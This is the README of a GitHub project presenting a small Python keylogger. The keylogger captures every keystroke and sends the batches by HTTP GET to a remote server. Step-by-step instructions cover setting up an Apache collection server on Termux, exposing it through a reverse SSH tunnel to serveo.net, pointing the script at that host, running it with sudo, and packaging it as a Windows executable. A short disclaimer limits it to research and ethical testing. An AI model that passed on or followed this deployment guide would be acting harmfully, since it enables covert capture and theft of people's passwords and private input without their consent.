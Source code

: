 # HackTheKeyboard
<h3>A tiny keylogger coded with just 12 lines of Python script, which captures keystrokes and sends them to your web server of your choice.</h3>

<b>First Thing First</b><br>
This keylogger project is created for those who would like to understand the working and behaviour of keyloggers, reverse engineer the compiled version of the code to find kill-switches and build IOCs/Signatures, ethically test on systems for the purpose of Ethical Hacking/Penetration Testing such as testing the bypasses and detection by EDR, SIEM, HIPS etc.
The program should not be used for any illegal activities such as running the compiled version of this code in a user machine without his/her consent, distributing it by means of spamming/phishing campaigns etc.

<br>
<b> Short working demonstration of HackTheKeyBoard </b><br>
https://www.youtube.com/watch?v=miUS2aoupD8
<br><br>
<b>How stuff works?</b>

This KeyLogger uses two main packages (Keyboard and Requests)

a) Keyboard package contains pre-built classes and functions which acts as hook procedures to the system kernel using which it can intercept events, such as messages, mouse actions, and keystrokes. A package function known as read_key() runs in an infinite while loop capturing all keys into a string variable in an incremental manner.

b) Once it captures all keystroke and if it finds character 'e' in the strings(the most typed keyboard character), it triggers Requests package function known as requests.get("URL") to send the captured keystroke strings via HTTP packet using GET method directly into your chosen web server such as Apache. You can prepare your server in your Termux Environment running in an Android Phone. The keystrokes are then stored in the webserver access log file as a normal HTTP GET request entries. The string variable is re-initialized and starts filling up again while in the loop.
 
<br>
<b>Setting up the Server</b><br>
Apache Webserver is highly recomended for its simplicity but you can use any webserver, given that it logs all the incomming requests into a log file.

Here is an example of setting up an environment using Android Termux

1) Install Apache Server -> `apt-get install apache2`
2) Start Apache Server -> `apachectl start`<br>
   Note: Just ignore the runtime warnings!
3) Install Open SSH -> `pkg install openssh` or `apt-get install openssh`
4) Open Reverse HTTP Tunnel to Serveo.net and wait -> `ssh -R 80:localhost:8080 serveo.net`<br>
   Note: 8080 is the default local port of apache, and port 80 will be the incomming port from Internet

<br>
<b> Editing and running the Keylogger</b><br>
Editing and compiling requires python interpreter to be installed and a suitable IDE such as PyCharm.<br>
(Rookies can just Google it online on "how to install python along with an IDE")

1) Download the Zip package of this repo and extract in your drive or run `git clone https://github.com/Sumeet-R/HackTheKeyboard` in Linux.
2) Install dependencies -> `pip3 install -r requirements.txt` or manually install the mentioned packages in requirements.txt from IDE
3) Open your IDE and import the python script, modify the variable named "host=" with the hostname displayed at 4th step of server setup.
4) Run the python code using `sudo python3 htk.py'
5) Test by typing upto 20 characters. If requests with keystrokes appears in your serveo terminal, it would mean that you have sucessfully setup the keylog server and Keylogger. You can later refer the Apache access log file located in `/var/log/apache/access_log`

<br>
<b> Pakaging the Keylogger into executable binary</b><br>
You can search online how to compile a keylogger based on target OS environment.
For Windows : https://pypi.org/project/auto-py-to-exe/ 



 
